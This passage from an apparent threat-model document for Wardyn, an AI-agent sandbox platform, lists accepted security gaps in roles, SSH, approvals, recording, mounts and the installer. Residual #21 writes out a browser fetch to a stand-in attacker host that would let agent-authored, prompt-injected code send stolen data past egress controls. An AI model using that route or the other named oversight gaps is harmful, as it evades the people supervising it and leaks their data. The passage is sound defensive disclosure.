    list changes, cluster by cluster:

    | Route cluster | Operator list SET | List UNSET |
    |---|---|---|
    | Policy CRUD; workspace CRUD incl. the scoped `approved-egress` / `llm-cred` / `requirements` widening writes; `GET`/`PUT /site-config` + its two connectivity probes (each launches a sandbox on the operator's behalf); the managed harness credential (`POST /setup/harness-login`, `PUT`/`DELETE /setup/harness-credential/{provider}` — the shared subscription EVERY run inherits); source-library and base-image catalog CRUD; integration writes (`PUT`/`DELETE /integrations/{id}`); the attach WebSocket's ticket-LESS fallback lane (`GET /runs/{id}/attach` falling back to session-cookie auth when no `?ticket=` is presented) | 403 for members | any signed-in human, via the one `humanOrAdminAuth` group (`internal/api/http.go`; the route registrations in `internal/api/routes.go` say so at each site) |
    | Minting an attach ticket (`POST /runs/{id}/attach-ticket`); deciding an `egress_domain` approval on a run one owns | owner-or-admin — **moved DOWN since v0.5, deliberately NOT in the 403 list.** The WebSocket re-checks the ticket's own stamped role/principal at consume time, since the ticket-bearing lane never runs this gate (`handleAttachWS`); `credential` and `tool_call` approvals stay ADMIN-TIER-only regardless of ownership (residual #17) — and "admin tier" now means `isSecurityOperator`, which `authorizeMemberDecision` consults BEFORE it looks at `Kind` or owner, so a `security_admin` decides any kind on any run | same |
    | Secret write/delete/list (`PUT`/`DELETE /secrets/{name}`, `GET /secrets`) | **self-service since v0.7** (migration `0050_secret_owned_by.sql`), so it is NOT in the 403 cluster above: any signed-in human manages their OWN row, scoped by `secretOwnerFromRequest`. A member never reaches another principal's row (the store is namespaced per owner — `Secrets.For(owner)` cannot resolve it) nor the four reserved Bedrock/SigV4 names; cross-principal reads/deletes go through `?owner=` and stay operator-only. The LIST returns names only, never values, and is capability-narrowed (`handleListSecrets`, kind `secret`) | same |
    | Capability-grant CRUD (`/permissions`) and the per-kind enforcement switches | **`securityOps`, not `operatorOnly`** (`mountPermissionRoutes`): admin OR `security_admin`. So the tier that WRITES the rows is not the tier they BOUND — grants bound members, and the resolver exempts `isOperator` only. `/access` role mappings, by contrast, stay `operatorOnly` (asset #8): the second tier governs posture and cannot mint a tier | same |
    | `POST /runs`, every read | open to any signed-in human, by design | same |
    | `POST /runs/{id}/kill` | **owner-or-admin, not open** (`getRunAuthorized` → `ownsRunOrAdmin`): a member killing a run they did not create gets the byte-identical 404 a missing run would, audited `authz.denied` / `not_owner`. `ownsRunOrAdmin` is `isSecurityOperator`, so a `security_admin` may stop ANY run — deliberately: inspect-or-stop is the whole of that tier's warrant over a foreign run | same |

    The admin token and local mode are always operators (one shared credential
    carries no human to demote). So the §1 insider raises their own ceiling rather
    than exceeding it: `PUT` a wide-open policy, or point every run's upstream proxy
    at a host they control (site-config names a secret ref, and
    `PUT /secrets/{name}` is in the same group). What bounds this is the operator
    allowlist where it applies, otherwise attribution not prevention — every such
    write is audited (`policy.create`/`update`/`delete`,
    `secret.write`/`secret.delete`, `site_config.write`,
    `harness.credential.captured`/`disconnected`) — plus optional narrowing to a
    verified-email domain (`WARDYN_OIDC_EMAIL_DOMAINS`, empty = any verified email;
    the `email` claim it matches is only forced IdP-VERIFIED when that var is also
    set — set both, or trust your IdP). In local and admin-token mode the only
    principal IS the admin, so the gap collapses into #9. The fix is `ROADMAP.md`'s
    v1.0 "separation of duty on the control plane".

    **v0.6 did not change this.** Capability grants (§4.3, residual #20) bound
    MEMBERS only: admins, the admin token and local mode are exempt at the top of
    the resolver, so an admin still sat above the rows that would have bounded
    them. The ceiling was attribution (now including `capability.grant.*` and
    `capability.enforcement.write`).

    **v0.7 changes it PARTIALLY, and the partiality is the point.** A second admin
    tier ships — `security_admin` (§1, boundary B11) — and it is a real separation
    of duty on one axis: governance authority (approvals of every kind, audit read
    and chain verify, capability grants and switches, governance profiles, session
    revocation, workspace egress, stopping any run) is now reachable WITHOUT the
    super admin's reach into runs, credential material or the host. A security
    admin cannot attach to, take over, or mint a ticket for a foreign run; has
    their SSH keys stamped `member`; cannot sweep sandboxes; cannot update, delete,
    reassign or bind credential material to a workspace they do not own; and cannot
    promote anyone — `/access` is `operatorOnly` (asset #8). Grant CRUD moved WITH
    them (`securityOps`), which is safe only because the resolver exempts
    `isOperator` alone, so no capability kind can widen either admin tier.

    **What is still NOT separated:** the super admin tier is unbounded and trusted
    by design — it writes policy, site-config, secrets and the role map, and
    nothing above it offers more than attribution. There is no per-resource
    permission model, no custom roles, and no tenant or org column. One optional
    four-eyes rule exists, on one act only (`WARDYN_EGRESS_SECOND_HUMAN`,
    § "Four-eyes on egress approvals"), and it is bypassable by the admin token by
    design. So: separation of duty BETWEEN the two admin tiers is shipped and
    testable; separation of duty WITHIN the super admin tier remains `ROADMAP.md`'s
    v1.0 item. `SECURITY.md` scopes its out-of-scope disclosure to match — an
    escalation ACROSS the `security_admin`/super-admin boundary, or a bypass of the
    four-eyes rule, is an in-scope report.

15. **SSH gateway's admin override is a bounded-stale stamp, not a live role
    check.** Since `0043_ssh_key_role.sql` (v0.6), SSH authorization
    (`docs/SSH.md`) is `run.created_by == the connecting key's registered principal`
    OR the key's `role` column reads `admin` (`internal/api/sshgateway.go`'s
    `sshAuth`) — but `role` is stamped at `POST /me/ssh-keys` time from the
    registering session's role, and `sshAuth` never consults the CURRENT role live.
    `0046_ssh_key_role_checked_at.sql` narrows the staleness from unbounded to
    bounded: every successful OIDC login re-stamps BOTH `role` and
    `role_checked_at` for that principal's keys (`oidc.Config.OnLogin`, wired in
    `cmd/wardynd/boot_deps.go` to `store.RefreshSSHKeyRoles`), and `sshAuth` refuses
    the override once `role_checked_at` exceeds `WARDYN_SSH_ROLE_TTL` (default
    `24h`) — including when never stamped (`NULL`, infinitely stale, the fail-closed
    reading for every pre-`0046` row). Still bounded-stale, never live: a demoted
    admin's key keeps granting the override until their next login (re-stamping
    `role=member`), the TTL aging out on its own, or the key being deleted
    (`DELETE /me/ssh-keys/{fingerprint}`, or direct store access). A member's key
    never satisfies the override regardless of drift — only `role==admin` does,
    reachable only by holding the admin role at a stamping moment. Audited
    distinctly (`ssh.auth` success carries `override:true` when the owner check
    failed and the role check passed; a TTL-refused attempt is an `ssh.auth` failure
    with its own reason string). No in-place role-update endpoint exists; the
    re-register path is still immediate.

16. **SSH key fingerprint squatting has no self-service remediation.** The
    `ssh_public_keys.fingerprint` primary key is GLOBAL by design — a key must
    authenticate to exactly one principal — so whoever `POST`s a public key FIRST
    owns that fingerprint forever, and a first-mover can squat a key someone else
    also holds (most plausibly one whose public half is posted somewhere),
    permanently 409-ing the rightful holder. The 409 message is deliberately
    generic — it does not confirm the key exists under another account — but that is
    a disclosure mitigation, not a fix. The only remediation is operator-side and
    out of band (identity-verify the owner, then delete the squatted row —
    `docs/SSH.md`'s "Reclaiming a squatted fingerprint"); there is no
    dispute/ownership-transfer flow, and the freed fingerprint can be re-squatted
    immediately. Low severity (SSH access to a run someone already owns).

17. **Member self-approval of a run's own `egress_domain` requests.** v0.5's
    admin/member split lets a member `decide()`
    (`POST /approvals/{id}/approve|deny`) an approval on a run THEY OWN, but only
    when its `Kind` is `egress_domain`; `credential` and `tool_call` stay admin-only
    regardless of ownership — self-deciding either would let a member self-mint a
    real credential (the shipped example policies' `github_token` grant ships
    `requires_approval: true`) or reopen the allowance `composer.Clamp`'s ceiling
    exists to bound. The intentional residual: a member can self-approve a
    `wait_for_review` first-use host on their own run with no second human —
    `decided_by` gives ATTRIBUTION, not independent review.

    **v0.6 narrows this, conditionally.** With `egress_host` ENFORCED (residual
    #20 — it ships off), a member may decide an `egress_domain` approval only for a
    host they hold a grant for: `authorizeMemberDecision` resolves it through
    `capSeamAllowed` and answers `403` otherwise, audited `authz.denied` /
    `capability_egress_host`. A matching DENY bites even with the switch off. A
    blunter lever — `WARDYN_EGRESS_SECOND_HUMAN=1`, § "Four-eyes on egress
    approvals" — refuses ANY self-approval outright. They close different halves:
    enforce `egress_host` (or write the deny) to bound WHICH hosts a member may
    clear; set the ceiling policy's `first_use_approval` to `always_deny`
    (`composer.Clamp` takes the stricter of ceiling vs. proposal) where genuine
    third-party sign-off on ANY first-use domain is required — a grant makes the
    decision permissible, never independent. On a deployment that has done neither
    — every deployment upgraded from 0.5 with no rows written — `wait_for_review`
    remains something the owning member clears themselves.

18. **The UI-sandbox gateway shares ONE browser origin across runs unless the
    deployment has wildcard DNS.** In the default path mode
    (`WARDYN_UI_SANDBOX_ORIGIN_TEMPLATE` unset) every run's relayed apps are served
    from one origin under `/r/<run-id>/`, separated only by the relay cookie's
    `Path` scope. That stops the browser ATTACHING run A's cookie to a request for
    run B — it is not an origin boundary: two runs' apps open at once are
    same-origin, so run A's page can script run B's tab where it holds a window
    handle, and origin-scoped storage (`localStorage`, `IndexedDB`, service
    workers) is shared. The console is out of reach either way (§4, B10), so the
    blast radius is one run's UI app influencing another's inside the SAME human's
    browser profile. Closing it needs infrastructure Wardyn cannot supply: set
    `WARDYN_UI_SANDBOX_ORIGIN_TEMPLATE` to a per-run host (wildcard DNS + wildcard
    certificate) and each run gets its own origin, with an enter served on any other
    host refused outright. Which mode is running is published, not inferred — boot
    logs the shared-origin mode as a warning and `/healthz` carries
    `ui_sandbox.host_mode`.

19. **A UI-app session is not recorded — only that it happened.** Session recording
    (tmux, the PTY recorder, `internal/secretmask` masking, the asciicast upload)
    covers the terminal lanes: browser attach and SSH shells. **None of it is on the
    relay path**, by design — the relay carries an interactive app's HTTP traffic,
    neither maskable by a verbatim-match masker nor replayable as a cast — so Wardyn
    captures no keystrokes, no screen, no page content and no request or response
    bodies. What lands in the append-only log is `ui.auth` / `ui.start` / `ui.open`
    / `ui.close` with the app, the port and the duration; those actions are
    deliberately NOT `session.attach`, so a relay session can never surface in the
    recording picker as though a replay existed. The console lane states its own
    no-recording line in the product (`docs/design/ui-sandboxes-prompt.md`), not only
    here. A deployment needing "everything a human did inside a run is replayable"
    does not have that for a run whose policy declares `ui_apps`.

    **The gap is wider than the relay** — the same already holds for `ssh -L` to a
    port plus a local client (`docs/SSH.md`, "Recording"). On every
    SSH-gateway-enabled run,
    `ssh.exec` records only `argv`/`exit` and `ssh.sftp` only a byte count — the
    command's stdout/stderr and the sftp payload are never captured, and sftp's byte
    accounting undercounts because only one direction is metered (`docs/SSH.md`'s
    "Audit actions"). Neither substitutes for replay, and no per-lane refusal blocks
    exec/sftp on a run whose policy also demands replay — the two can be declared
    together and silently leave that portion unreplayable.

20. **Capability enforcement is off until an admin turns it on, and three narrower
    gaps sit underneath that default.** The v0.6 permissioning pillar (§4.3) is a
    real authorization control, published here because its shipped posture is
    deliberately permissive:

    - **Every enforcement switch ships OFF.** An absent `capability_enforcement`
      row means *not enforced*, so an upgraded 0.5 deployment behaves exactly as it
      did until an admin flips a kind on, one at a time. Fail-OPEN as a default,
      traded for an upgrade that changes nothing — so "Wardyn has per-capability
      permissioning" is never by itself a statement about a deployment's posture.
      `GET /permissions` (admin) and `GET /me/capabilities` (member) report which
      kinds are actually enforced; deny rows are the on-ramp that works with every
      switch still off.
    - **A `group` DENY is evaluated as a REFUSAL when the caller's group snapshot
      cannot answer — not evaporated (v0.7 closed the fail-open).** Group
      membership is snapshotted at LOGIN into the signed session cookie, capped at
      2048 bytes and dropped from the sorted end (`maxSessionGroupsBytes`,
      `internal/auth/oidc/derive.go`). Two shapes reach v0.7: a CURRENT cookie
      whose group list was dropped at that cap (or an IdP that never sent the
      claim — an Entra groups overage), and a pre-0.7 API TOKEN, which never
      recorded whether its snapshot was complete (`apiTokenAuth` reads that NULL
      marker as truncated, migration `0052`). A pre-0.7 COOKIE is not one of them,
      and that is worth stating precisely because the older text implied it was:
      `SessionCodecVersion` is stamped by `encodeSession` and `decodeSession`
      requires an EXACT match, so a payload carrying a different version — or none,
      which is every pre-0.7 cookie — is `ErrInvalidSession`, not a half-trusted
      session. `Middleware` falls through with no principal, the browser is bounced
      to sign in, and `CallbackHandler` mints a current cookie. **The 0.6 → 0.7
      upgrade therefore costs every signed-in human exactly ONE re-login**, and the
      compare is exact rather than `<` on purpose: under `<`, an OLD binary in a
      rolling upgrade would accept a NEW cookie and read its unknown fields as
      zero, which is the same fail-open the version exists to prevent. So a
      mixed-version rollout (a Helm rollout with both versions serving) costs
      logins — repeated, until it completes — never containment. In the shapes that
      DO reach v0.7 the group's rows, including its denies, are missing from the
      caller's subject set. Through v0.6 a clean scan then read as permission, and
      with the kind unenforced it resolved allow-by-default. Since v0.7 `capScan` asks
      `capUnresolvableGroupDeny` whenever the snapshot is unanswerable, and reports
      the deny it cannot rule out — a group snapshot that cannot be answered may be
      hiding a group DENY, and a deny beats an allow. The refusal is SCOPED to
      deployments that actually hold a group deny row of that kind, so an upgrade
      with no such rows still changes nothing, and it sits ABOVE the enforcement
      switch (`capAllowed` evaluates deny before `capEnforced`), so an unenforced
      kind no longer rescues the request. **What remains open** is the reachability,
      not the resolution: the caller still cannot USE their group grants until they
      sign in again or re-mint, the condition reports distinctly as
      `groups_snapshot_stale` on `GET /me/capabilities` rather than as "holds no
      groups", and a deny that must bite on an ALLOW-shaped path is still best
      written against the **user** (lowercased OIDC `sub` or email).
    - **`PUT /permissions/enforcement` is a full-map replace whose
      optimistic-concurrency guard is opt-in.** `If-Match`/ETag ship (0.6), but a
      caller that never sends `If-Match` replaces the whole map: an omitted kind
      means *off*, so a stale admin tab or two concurrent admins silently turn an
      enforced kind back off — the fail-open direction — and get `200`. Bounded by
      attribution, not prevention: every write emits
      `capability.enforcement.write`. Re-fetch `GET /permissions` before writing.
    - **Admin-authored values are never narrowed, by doctrine.** A stored policy, a
      workspace's own requirements, scan-seeded hosts and the model provider's own
      egress reach a member's run untouched however few grants they hold. The
      intended contract (residual #14 remains the frame), not a bypass — but read a
      capability as bounding *authorship*, not *reach*.

21. **The UI-sandbox relay is a browser-pivot egress channel, un-analyzed in that
    direction** (residual #18 covers the cross-run scripting direction).
    `handleUIRelay` (`internal/api/uigateway.go`) adds "no new network path out of
    the sandbox" — true for the netns. But the served HTML/JS runs in the
    **operator's own browser**, which Wardyn does not confine:
    `fetch(attacker, {mode:'no-cors', body:stolen})` from sandbox-authored JS
    reaches the open internet outside `wardyn-proxy` and any egress policy. The
    relay deliberately sets no CSP or `X-Frame-Options` (`UIGatewayHandler`: "this
    origin serves the sandbox's own app, and the console's policy would break it"),
    and audit records only `ui.auth`/`ui.open`/`ui.close` (residual #19).
    **Operator acknowledgment:** opening a run's UI app runs that run's
    (agent-authored, possibly prompt-injected) code in your browser, with your
    browser's network reach. A `Content-Security-Policy: connect-src 'self'` would
    narrow, not close, this — it stops in-page `fetch`/`XHR`/WebSocket egress but
    not navigation or a form submit — and is not implemented.

22. **The UI-relay's 8-hour session cookie re-checks the run's state, not the
    principal's current authorization.** `uiSessionTTL` is 8 hours
    (`internal/api/uigateway.go`); the cookie is minted once at `handleUIEnter`
    against the caller's role at that moment, and every later relayed request
    re-validates only that the run is still live — never that the principal is still
    an admin, still owns the run, or still has an active session. Revoke an admin's
    role, or delete their OIDC session, mid-run: the relay cookie keeps working
    until the TTL lapses or the run stops. Distinct from residual #15's SSH stamp
    (scoped to key registration; this is a live per-request cookie that could
    re-check and does not).

23. **The shipped default deployment collapses the audited insider into the trusted
    operator.** §1 treats "Platform operator / SRE" as trusted and out of scope and
    "Malicious insider (developer)" as the audited adversary — the SAME person on
    the topology Wardyn ships today. `make setup`'s flagship path runs `wardynd` in
    no-auth local mode on an empty admin token (`docs/ENV.md`'s
    `WARDYN_ADMIN_TOKEN` row: an empty token plus a loopback bind auto-enables it),
    so the governed developer IS the platform operator: they hold the Docker host
    the "append-only" audit trail lives on (`docker compose down -v` deletes it
    outright — `docs/OPERATIONS.md`'s "State stores": "Lose any of them and the loss
    is permanent") and edit policy/enforcement as their own admin. Every
    insider-attribution claim elsewhere here is void under that topology unless said
    out loud: **the residual-#9 insider-admin exclusion is not a corner case on the
    laptop default — it is the norm**. The fix is the multi-user
    central-control-plane topology (`docs/OPERATIONS.md`'s "Multi-user: who can
    change what"); nothing in the product enforces that separation exists.

24. **`TestAuthzMatrix`'s "cannot go stale" invariant does not cover the UI-sandbox
    gateway.** The matrix's own coverage-boundary comment
    (`internal/api/authz_test.go`) names exactly one excluded surface — the SSH
    gateway's separate listener — because `chi.Walk` only discovers routes on
    `srv.router`, so a route living on a different `http.Handler` is invisible to it. `UIGatewayHandler` is wired as its own listener/handler, never
    registered on `srv.router`, so it is exactly as invisible as SSH is — but the
    comment does not say so, which reads as a stronger guarantee ("every route")
    than the test provides. A credibility gap in what a green matrix run means, not
    a live authorization hole: `uigateway_test.go` exercises that surface's
    authorization today, the same relationship `sshgateway_test.go` has to the SSH
    exclusion. A future route on the UI gateway's own router would escape both the
    guarantee and this document's notice of the exclusion — the failure mode
    `TestAuthzMatrix` exists to prevent everywhere else.

25. **A member-authored mount's bind is still not atomic with its check (TOCTOU),
    and the residual is accepted, not closed.** The gate re-resolves the source with
    `EvalSymlinks` in the docker driver immediately before `ContainerCreate` — as
    late as this process can look — but validate and create remain two operations,
    exactly the window `ValidateMountSource`'s own residual note publishes for
    OPERATOR mounts. A member with local root can swap the source for a symlink
    inside that window; we do not claim to defeat it. Two things bound the blast
    radius: the roots are **operator/MDM-set**, so the widest a member can aim the
    race is *within the declared roots* — the target set cannot be enlarged, only
    raced within — and the credential-dotfile deny-list matches the
    **post-`EvalSymlinks` real path**, so a won race landing on `~/.ssh` inside a
    too-wide root is still refused unless the attacker also defeats that list. The
    tests pin the ORDERING this depends on; the race itself is not
    deterministically testable and no test claims to cover it.

26. **A reckless member root is a boot WARNING, not a boot refusal.** Setting
    `WARDYN_MEMBER_WORKSPACE_ROOTS` (or a `_MAP` entry, or
    `WARDYN_MEMBER_WRITABLE_ROOTS`) to `/` or the daemon's own `$HOME` leaves the
    dotfile deny-list as the ONLY thing between a member and the operator's
    credentials — and `wardynd` logs that at boot and starts anyway, matching the
    `LocalMode`-on-unspecified-bind WARN precedent. A deliberate decision (design
    O4) and the un-bounded corner of residual #25: a member already local-root on
    such a box is bounded by the deny-list alone. A malformed root DOES refuse boot
    — an allowlist silently misparsed is worse than one merely wide. Point the roots
    at a dedicated projects directory; the fail-closed default (unset = no member
    host mounts) is what a deployment that ignores this gets.

27. **`workspace_owner` makes cross-user admin access visible; it does not gate
    it.** An admin reaching a member's owned workspace is authorized by design
    (`ownsWorkspaceOrAdmin` short-circuits on `isOperator`) — support and
    offboarding need it. v0.6 adds attribution, not separation of duties: the audit
    actor stays the ADMIN's own principal (never the member's — no impersonation,
    pinned by `TestWorkspaceOwner_NoImpersonation`) and every such event carries
    `workspace_owner`. Nothing asks a second human to approve it, nothing notifies
    the member, and an admin who can rewrite the audit store at the database level
    is bounded only by the hash chain's tamper-EVIDENCE (§4.5). The workspace-noun
    instance of residual #14's one-operator-tier, bounded the same way.

28. **A configured `WARDYN_TRUSTED_CA_FILE` makes the corporate middlebox a trusted
    issuer for `wardynd`, every proxy sidecar, and every sandbox — not merely
    tolerated on one hop.** The bundle is additive to the system roots, so while the
    knob is set the middlebox can read and rewrite anything the three processes send
    over TLS: `wardynd`'s own OIDC discovery, GitHub App transport and audit-webhook
    calls (all on the one mutated `http.DefaultTransport`); the proxy sidecar's
    forward and control-plane transports; and — because `installSandboxTrustedCA`
    appends the same PEM into the sandbox's CA trust — the agent's TLS clients on a
    passthrough (non-MITM'd) CONNECT tunnel. Wardyn's own inspection/masking (the
    `llm_inspection` guardrail, the per-run MITM CA) sits INSIDE that envelope, not
    above it. There is no certificate pinning anywhere this trust applies — the
    bound is scope, not depth: the PEM is operator-set at process boot only (read
    once, never a `SiteConfig` field an admin API write or a member could reach,
    never agent-reachable), additive rather than a replacement, and named in
    `docs/OPERATIONS.md` and `docs/adoption/corp-image-authoring.md`. A BYOI base
    missing every system CA-bundle path loses public trust for its OpenSSL-shaped
    clients entirely once this is set (residual #13 sharpened) — a named, accepted
    ceiling, not a gap.

29. **The operator's model-provider credential is disclosed to whatever host they
    nominate as the internal gateway.** `WARDYN_ANTHROPIC_BASE_URL` /
    `WARDYN_OPENAI_BASE_URL` (`internal/api/llm_gateway.go`,
    `Proxy.vetTrustedHost`/`Proxy.gatewayTarget`) re-point the api-key lane's
    brokered credential injection at a control-plane-authored host — the same trust
    class as `WARDYN_TRUSTED_CA_FILE` (boot-time only, never a `SiteConfig` field,
    never agent-reachable). Once configured, the live api-key credential
    (`buildInjector`'s minted grant) is sent to that host on every model call;
    gateway-side retention, logging or forwarding of the plaintext key is outside
    Wardyn's boundary entirely — the same trust an operator extends to any corporate
    proxy they nominate (`upstream_proxy_url`), stated explicitly because a model
    credential is higher-value than most.

    Bounded on every other axis: validated at boot (`https://` only, no userinfo,
    the gateway host must not equal the public provider host,
    loopback/link-local/metadata/unspecified/multicast/NAT64-embedded literals
    refused — RFC1918/CGNAT is the expected shape); only the brokered
    `/wardyn/llm/*` route (`Proxy.gatewayTarget`) resolves or dials the gateway with
    the relaxed per-request vet, so there is no rebinding window on THAT path — a
    sandbox naming the gateway host on an ordinary CONNECT/MITM path is treated like
    any other (`Proxy.egressTarget`/`Proxy.vetHost`: policy plus the unconditional
    private-IP guard apply unchanged, so a private-address gateway named by HOSTNAME
    stays unreachable without its own `SiteConfig.InternalHosts` declaration); and
    `planArtifactRedirect`'s veto keeps an artifact-registry redirect from colliding
    with the same host. **Literal-IP ceiling:** a gateway configured by IP LITERAL
    (`https://10.40.1.5/v1`) must be listed by that literal in `allowed_domains`,
    and an exact literal-IP entry is honoured by `evaluate`'s step 0
    (`Policy.AllowsLiteralIP`) BEFORE the private-IP guard — so the gateway box is
    then reachable from the sandbox on every port over a plain CONNECT (no
    credential rides that path; injection only happens on the brokered route).
    Prefer a hostname gateway. **Scope:** only the api-key lane is redirected — a
    subscription or Wardyn-managed run's credential still goes to
    `api.anthropic.com` directly.

30. **`/healthz` is anonymous and now also names the k8s substrate's NetworkPolicy
    posture, not merely its confinement classes.** `handleHealthz` already discloses
    `confinement_classes` to any unauthenticated caller; it now adds
    `network_policy` (`k8sNetpolVerdict`'s "enforced"/"unenforced"/"acknowledged"),
    present only on a k8s substrate. Same disclosure class as the fields beside it —
    a runtime posture fact, not a credential or a topology detail — and it lets an
    operator's own monitoring catch an unenforced-but-allowed cluster without an
    admin token.

31. **Directory autocomplete grants the control plane read of the WHOLE
    directory, and the daemon dials out to get it.** `WARDYN_DIRECTORY_PROVIDER=entra`
    (§I) authenticates `internal/directory`'s connector as an application against
    Microsoft Graph, which can enumerate every user and group in the tenant —
    not a scoped slice — and makes wardynd itself reach
    `login.microsoftonline.com:443` and `graph.microsoft.com:443`, outside the
    egress sidecar and outside any run policy. Default OFF, consented by a tenant
    admin in Entra rather than by Wardyn, exposed only on the `securityOps` tier
    (`handleDirectorySearch`), cached 60s in memory and never persisted, and
    retracted by unsetting one variable — but while it is on, a compromised
    control plane reads the org chart, and per-search audit is deliberately
    ABSENT (one row per keystroke would log every name an admin looked up), so
    the audit trail records connector failures, not who was searched for.

32. **The one-line installer trusts the release ORIGIN: the compose definition
    has no digest, and every other check it makes is same-origin.** `install.sh`
    pulls `deploy/compose/docker-compose.yaml` from the release tag on
    `raw.githubusercontent.com` and writes it into `${WARDYN_HOME}` unverified —
    and that file decides which images run, which ports publish on which
    interface, whether `WARDYN_LOCAL_MODE` is on, and what is bind-mounted. An
    earlier wording of this residual said everything else the installer places
    *is* verified. That overclaimed, in three places:
    - The CLI binary is hash-checked, and fail-closed (`install_cli` computes
      `sha256_hex` and dies on a mismatch rather than installing it) — but
      against a `SHA256SUMS` fetched from the SAME
      `releases/download/${VERSION}` base as the binary. That defeats a
      corrupted or swapped asset, not a tampered release, which would serve a
      matching list. `install_cli` never fetches `SHA256SUMS.sig` or
      `SHA256SUMS.pem`: the `cosign verify-blob` in `docs/VERIFY.md` §5 is the
      OPERATOR's manual step, and the installer runs no cosign at all.
    - The images are pulled by TAG (`docker compose pull`, and `mint_age_key`'s
      `docker run … -gen-age-key` before it). They are cosign-verifi**able** by
      the operator (`docs/VERIFY.md` §1); the installer verifies none of them.
      `docker compose pull` covers exactly the three DEFAULT-PROFILE services
      (`wardynd`, `postgres`, `registry`) — the proxy sidecar and the three
      agent images sit behind the `build-only` profile in the compose file and
      are pulled by wardynd itself at the first run, so four of the seven images
      this release ships arrive long after the install transcript has scrolled
      past (`docs/VERIFY.md` §6 bullets 2-3).
    - So on a fresh install the FIRST foreign code to execute on the box is the
      wardynd image's `-gen-age-key` entrypoint, which `mint_age_key` runs to
      mint the secret-store key — before `docker compose up -d --no-build`, and
      before the operator has read the compose file or anything else.
    - **From a CLONE the same images also run HOST-NATIVE, outside any
      container.** `scripts/up.sh`'s pull-first path is the `make setup`
      equivalent of the above, and its `seed_host_proxy` copies `/host/wardyn`
      out of the `wardynd` image to `bin/wardyn` and EXECUTES it on the host to
      detect the operator's proxy settings — a plain host process, so none of
      §3's confinement applies to it, and the bullet above (a container
      entrypoint) does not describe it. Narrowed for 0.7 rather than only
      documented: that path now runs `cosign verify` + `cosign
      verify-attestation --type cyclonedx` against the release-workflow identity
      itself when `cosign` is on PATH, REFUSES an image that fails and falls back
      to building from source, and names the gap out loud when `cosign` is absent
      instead of announcing "cosign-signed, SBOM-attested" as it used to.
      `WARDYN_BUILD_LOCAL=1` removes the pull, and with it this residual.

    Accepted for 0.7 on one honest ground, stated as what it is: `curl … | sh`
    is a decision to trust this project's release origin for one command, and
    this installer does not pretend to be more than that. What it fetches stays
    on disk — `${WARDYN_HOME}/docker-compose.yaml` is short plain YAML, and
    `docs/VERIFY.md` §6 says plainly which checks are the operator's to run
    against it afterwards. The fix is a `SHA256SUMS` row for the compose file
    plus a signature check the installer performs itself;
    `TestInstallSh_ComposeFetchIsVerified` and T6 of
    `scripts/test-install-sh-trust.sh` are written and enforce the first of
    those the moment `F10_EXPECT_COMPOSE_INTEGRITY=1` is set.

33. **A `host_path` user drive extends trust to whoever administers the host and
    the share; Wardyn bounds the PATH, not the tree.** Wardyn never performs the
    share mount and never holds a share credential — the operator mounts the
    export host-side and Wardyn binds one person's subdirectory of the result.
    What that buys is checked and real: the operator/MDM-set
    `WARDYN_USER_DRIVE_HOST_ROOTS` ceiling on the `EvalSymlinks` real path, the
    ordinary bind deny-list, the credential-dotfile list of §4.4 on that same
    real path, a refusal when the source resolves to the configured root rather
    than a subdirectory, and a refusal when the resolved directory's own NAME is
    not the home the resolver derived, applied at the last moment before
    `ContainerCreate` (`UserDriveMountSourceCheck`, `Driver.driveMount`).

    **That last rule closes the DIFFERENTLY-NAMED sibling-symlink case, and only
    that case.** One person's home replaced host-side by a link to another's —
    `alice` → `../bob` — is refused. The assertion is deliberately on the BASE
    NAME rather than on the whole path, because a share may legitimately file its
    homes in subdirectories of its root (`<root>/alice` → `<root>/2024/alice`),
    and the price of that is exact: a link onto a SAME-NAMED directory nested
    inside another principal's home (`<root>/alice` → `<root>/bob/alice`)
    satisfies all three checks — it is inside the deployment ceiling, inside this
    drive's own `host_root`, and its resolved base name is still `alice` — so
    Wardyn binds a directory sitting within bob's tree. Nothing in the product
    tells that shape apart from the legitimate `2024/alice` one, which is the
    point: the rule bounds the NAME, not the tree, and the tree is the share
    administrator's to arrange. What is NOT closed is everything ABOVE the path.
    And the isolation is bounded by the OTHER mount ceiling as well: a
    `WARDYN_MEMBER_WORKSPACE_ROOTS` entry that names, contains, or sits inside a
    drive's root lets a member onboard the share as a WORKSPACE and bind it whole,
    every home included, through a surface that consults no drive allocation.
    That pair earns a boot WARNING and not a refusal
    (`MountCeilingOverlapWarnings`), so a deployment configured that way keeps
    the hole; §4.6 states the argument.
    Whoever administers the share decides what is in it: a host-side bind mount
    of one home over another, hard links, an export re-pointed at a different
    tree, or per-directory modes that make every home world-readable are all
    invisible to a path check, and a host-level compromise reads the whole
    export. Isolation between people is the BIND OF THE SUBDIRECTORY, never the
    uid — every sandbox is uid 1000 by construction, and NFS `AUTH_SYS` trusts
    the client's uid — so the documented shape is a Wardyn-DEDICATED export
    squashed to that uid with `0700` per-person directories, not a corporate
    home tree; an SMB service account's reach is likewise the blast radius of a
    host compromise. Existing corporate homes owned by per-user uids are
    supported read-only where uid 1000 can read them; where it cannot, Wardyn
    does NOT refuse — the directory only has to EXIST for wardynd's own uid
    (`driveShareBindFailure`), so the mount succeeds and the agent sees permission
    denied at first access. Kerberos,
    `multiuser` SMB and per-user uids are deferred with their migration cost
    named (a uid-agnostic rebuild of all five agent images, `userns-remap`
    interactions, and the credential-staging binds re-owned per run).

34. **Every minted object name joins two variable-width fields, and the
    collision is a REFUSED RUN, not a cross-mount.** Every name Wardyn mints —
    a Docker volume as well as a Kubernetes claim — is
    `wardyn-drive-<drive-slug>-<home>`; both fields admit `-` and a slug folds
    case, so drive `eng` + home `us-bob` and drive `eng-us` + home `bob` name
    the same object. The consequence is bounded by a fail-closed identity check
    rather than by the name: the driver refuses a claim whose `wardyn.drive` /
    `wardyn.home` labels are not this run's (`driveClaimIdentity`), and Wardyn
    holds no `delete` verb with which to repair a collision, so what a colliding
    pair produces is a refused run for one of the two people — never one
    member's private storage inside another member's agent. Docker is guarded
    the same way at the object rather than by the name: `driveVolumeAdoptable`
    refuses a volume whose `wardyn.drive` label is another drive's, so a
    colliding pair costs one of the two people a refused run there too. This
    parity is NEW — the volume name carried no slug and so had no separator
    ambiguity at all until every minted name took one, which closed a
    re-pointing hole (a `home_override` moved between drives named one volume)
    at the price of extending this one to Docker. **The ambiguity itself is
    open.** The operator remedy is to rename one of the two drives
    (with the caveat in #37) or to give the colliding people distinct home
    names; the product fix — a fixed-width drive id in the object name, or slug
    uniqueness enforced at the write boundary plus a unique index — is 0.7.1,
    because it changes an object name people already have storage under.

35. **The credential-dotfile deny-list now matches a DRIVE's real path too, and
    that is the whole of what it covers.** The list §4.4 applies to member mount
